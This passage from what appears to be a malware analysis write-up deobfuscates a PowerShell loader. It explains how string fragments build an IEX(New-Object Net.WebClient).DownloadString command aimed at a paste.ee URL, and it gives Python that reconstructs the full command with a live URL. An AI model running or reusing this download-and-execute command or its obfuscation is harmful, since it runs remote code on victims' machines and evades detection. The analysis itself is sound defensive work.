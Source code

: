 
This PowerShell code snippet constructs and executes a command to download and run a script from a specified URL which is **hxxps://paste.ee/r/2FDzd/0**.

First, the variable **`$R`** is assigned the string **`IeX(Ne`**. Then, the string **`W-OBJ`** is concatenated to **`$R`**, resulting in the variable **`$RE`** being equal to **`IeX(NeW-OBJ`**. Next, the string **`eCT NeT.W`** is appended to **`$RE`**, making the variable **`$RED`** equal to **`IeX(NeW-OBJeCT NeT.W`**.

The variable **`$PAC`** is assigned the string **`eBCL`**, and the string **`IeN`** is concatenated to **`$PAC`**, resulting in **`$xx`** being **`eBCIeN`**. Subsequently, **`T).DOWNLO`** is appended to **`$xx`**, making the variable **`$RO`** equal to **`eBCIeNT).DOWNLO`**.

The variable **`$zz`** is assigned a string that appears to contain a URL. The expression **`$zz.RePLACe('O@0(&','ADSTRING')`** replaces the substring **`O@0(&`** in **`$zz`** with **`ADSTRING`**, transforming it into **`ADSTRING''hxxps://paste.ee/r/2FDzd/0''**.

Finally, the command **`iex($RED+$RO+$zz)`** combines the three constructed strings (**`$RED`**, **`$RO`**, and **`$zz`**) and executes the resulting command using the **`iex`** (Invoke-Expression) cmdlet. This effectively runs the PowerShell command constructed from the concatenated strings as shown in Fig 4. Nevertheless, We will reconstruct the PowerShell code for better readability.


![URL Download](/assets/images/zoom/URL_download.png)
*Figure 4: URL Download Process*



## Recontructing the powershell

```python

# Define parts of the PowerShell command
R = 'IeX(Ne'
RE = R + 'W-OBJ'
RED = RE + 'eCT NeT.W'
PAC = 'eBCL'
xx = PAC + 'IeN'
RO = xx + 'T).DOWNLO'

# Correcting the definition of zz by using double quotes for the URL
zz = "O@0(&('https://paste.ee/r/2FDzd/0')"
zz = zz.replace('O@0(&', 'ADSTRING')

# Combine all parts to form the complete PowerShell command
powershell_command = f"{RED}{RO}{zz}"

# Specify the output file
output_file = "deobfuscated_powershell_command_2.txt"

# Write the deobfuscated command to the file
with open(output_file, "w") as file:
    file.write(powershell_command)

print(f"Deobfuscated PowerShell command saved to {output_file}")
print("PowerShell Command:", powershell_command)
```